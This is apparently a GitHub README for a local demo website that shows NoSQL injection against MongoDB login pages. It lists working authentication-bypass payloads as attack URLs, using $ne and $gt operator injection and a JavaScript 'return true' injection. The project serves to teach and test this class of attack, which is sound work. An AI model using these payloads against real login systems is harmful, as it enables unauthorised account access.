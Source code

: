 # NoSQLInjectionAttackDemo
NoSQLInjectionAttackDemo is website demo for test NoSQL Injection. There are two website demos in this project and all databases are mongoDB
# Requirements
Install web server for example nginx, apache on local computer. On a Debian, Red Hat based system or windows are ok.
# Building
demo   : http://localhost/github/NoSQLInjectionAttackDemo/demo.html

demo_1 : http://localhost/github/NoSQLInjectionAttackDemo/demo_1.html
# Usage
Open url in the browser: http://localhost/github/NoSQLInjectionAttackDemo/demo.html
![image](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo/blob/master/images/demo.png)
Attack URL for demo:
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$ne]=2&password[$ne]=r
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$gt]=&password[$gt]=

Attack URL for demo_1:
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;return true;}//
